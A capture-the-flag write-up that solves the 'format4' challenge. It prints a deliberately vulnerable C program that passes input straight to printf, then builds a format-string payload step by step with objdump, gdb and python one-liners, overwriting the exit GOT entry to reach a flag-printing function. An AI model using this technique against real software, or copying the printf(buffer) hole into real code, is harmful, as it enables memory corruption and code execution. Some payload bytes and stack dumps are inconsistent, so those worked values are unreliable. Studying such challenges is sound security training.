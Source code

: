 ```yaml
---
title:  "Writeup: Format4"
date:   2019-04-22 14:00:00
categories: writeup
author: Tim Winters
layout: post
---
```

# format4
###### Writeup by Tim Winters

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");

  char flagBuffer[64];
  FILE *fp;
  fp = fopen("./flag.txt", "r");
  fgets(flagBuffer, 64, (FILE *) fp);
  printf("flag: %s\n", flagBuffer);

  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);
}

int main(int argc, char **argv)
{
  vuln();
}
```

It is obvious we need to call `hello`, but it won't be as easy as overwriting the return address, since the `exit` function is called, and we never return to `main`. 

The hint for this challenge is 
> What is the global offset table?

The Global Offset Table is, as I understand it, a middleman to connect our executable with the standard C library. For example, when we call `printf`, instead of including all the code in our binary, we use the library function. 

We could hard code the address of `printf` into our binary, but then any time stdlib changed, we would need to recompile our binary. 

Instead, we rely on the linker/loader to populate the `got` with the address of `printf`. 

---
Now that we understand the `got`, we can start our attack. The goal is to overwrite the address of `exit` with the address of `hello`, so that at the end of `vuln` we redirect there. 

Because the name of the challenge is "format4" we will use a format string exploit. In particular, we will use the `%n` specifier to overwrite the address of `exit`. 

---
## The Solution
Let's begin by determining the address we need to overwrite. 

To find the address, we can use `objdump`

```
> objdump -TR format4

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   fgets
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   exit
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.1   fopen
0804868c g    DO .rodata	00000004  Base        _IO_stdin_used
0804a040 g    DO .bss	00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a040 R_386_COPY        stdin@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804a018 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a024 R_386_JUMP_SLOT   fopen@GLIBC_2.1
```
In the second half of the output we can see that `exit` is at `0x0804a01c`. Let's see what is at this address. 

```
gdb-peda$ x/xw 0x0804a01c
0x804a01c:	0x08048406
gdb-peda$ x/xw *0x0804a01c
0x8048406 <exit@plt+6>:	0x00002068
```
So it looks like the entry for `exit` in the `got` points to `exit` in the `plt`. We can overwrite this value to point to the address of `hello` in the `plt`. To get that address, just use `p hello` in `gdb`.

```
gdb-peda$ p hello
$1 = {void ()} 0x804853b <hello>
```

Now we can construct our format string. We need to print  `0x804853b` characters then use `%n`. Plugging that into a calculator we get...134,513,979...I don't think that many characters will fit in the stack...so we need something else. 

Luckily, the `%n` format specifier comes with a friend, `%h`. `%h` lets us write just two bytes at a time, rather than all 4. Now our value will max out at 65535, much more reasonable. 

Let's look at the two addresses again

```
current got entry: 0x804a01c  
target got entry:  0x804853b
```
Lucky for us, the upper two bytes are identical, so we only need to write the lower two bytes. 

`0x853b = 34107`
So we need to write 34107 characters. That's...still too many (at least for python to handle). But there is another way. We can change the width of a single character such that `%n` increments, but our stack doesn't get destroyed. For example, if we do `%34107x` it will print out the next 4 bytes (length of integer) in hexadecimal without `0x` preceding, but padded with blank spaces such that the total length is 34107.

Let's start building our formatted string. 

`\x1c\xa0\x04\x08%34103x%hn`

Notice we use 34103 rather than 34107, becase we must take the 4 bytes of the address into account. 

The `%n` specifier can also take numbers, but they do something a little different. They determine which value on the stack we use as the address. `%1$hn` uses the first value, `%2$hn` uses the second, etc. 

To determine which value we want to use, we need to examine the stack. We can replace the `%hn` with `%x.` (the period acts as aa deliminator) to view the next values on the stack.

```
> python -c "print '\x1c\xa0a\x04\x08%34103x' + '%x.'*10" | ./format4
200f7fc55a0.f7ff010a.804a01c.31343325.25783330.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```
It looks like our output is the 4th value. Let's pop the first 3 off the stack so that our value is the very first one. 

```
------------------------------------------v this is the first one
> python -c "print '\x1c\xa0\x04\x08%34103x' + '%x.'*2 + '%x'" | ./format4
200f7fc55a0.f7ff010a.461a01c.34332508.78333031.252e7825.78252e78.2e78252e.252e7825.78252e78
```
The last `%x` shows our value. If we replace it with `%hn`, it should overwrite the first two bytes at that address. 

```
> python -c "print '\x1c\xa0\x04\x08%34103x' + '%x'*2 + '%hn'" | ./format4
Illegal Instruction (core dumped)
```
hmmm...ah. We didn't reduce our 'counter' to account for the 2 `%x`s we put in before `%hn`. 

```
> python -c "print '\x1c\xa0\x04\x08%34101x' + '%x'*2 + '%hn'" | ./format4
flag: 61e3db641ad7cee82e6dcd73292bfae7
```



